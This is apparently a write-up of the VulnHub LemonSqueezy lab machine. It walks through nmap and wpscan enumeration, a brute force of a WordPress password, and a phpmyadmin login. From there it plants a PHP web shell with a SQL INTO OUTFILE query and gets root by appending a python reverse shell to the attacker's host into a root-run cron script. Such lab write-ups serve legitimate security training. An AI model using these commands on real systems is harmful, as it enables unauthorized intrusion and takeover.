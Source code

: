 <h1>LEMONSQUEEZY: 1</h1>

**Today, we'll be looking at the LemonSqueezy machine on vulnhub.
You can download the machine here:**
<https://www.vulnhub.com/entry/lemonsqueezy-1,473/>

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A 192.168.88.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-17 10:28 EDT
Nmap scan report for 192.168.88.135
Host is up (0.00023s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:0F:4E:B3 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.23 ms 192.168.88.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds
```
The machine is running http only. Nothing special.

Let's use dirsearch to discover directories.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic1.png)

Interesting! The machine is running wordpress and phpmyadmin.
Let's check those out.

First, I'll try to enumerate usernames with wpscan.

```wpscan --url 192.168.88.136/wordpress -e u```

We found two users.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic2.png)

I tried searching for anything else but I didn't find anything so I brute forced the login password.

```wpscan --url 192.168.88.136/wordpress -U orange -P /usr/share/wordlists/rockyou.txt```

We got the password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic3.png)

I then found an interesting post.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic4.png)

I then tried multiple things but after that, I tried to log into phpmyadmin with this as the password.

We got in!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic5.png)

Now, I'll upload a shell using a SQL query.

```SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/backdoor.php"```

You can read this [article](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) on uploading shells on phpmyadmin.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic6.png)

We can see that our shell works.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic7.png)

Now, let's try to open a reverse shell.

I'll use a python reverse shell.

We got a shell!
You can stabalize your shell with these two commands.

```python -c 'import pty; pty.spawn("/bin/bash")'```

```export TERM=xterm```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic8.png)

Now, we move on to local enumeration.

I found an interesting file in crontab.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic9.png)

Let's check that file.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic10.png)

We can see it's a python script.

Let's add a python shell to get a root shell as that file is being run by root.

We'll use the same shell we used before but modify the port.

```echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.88.128",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' >> logrotate```

Now, set up a netcat listner and wait for the script to run.

We are root!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/LemonSqueezy/pics/pic11.png)

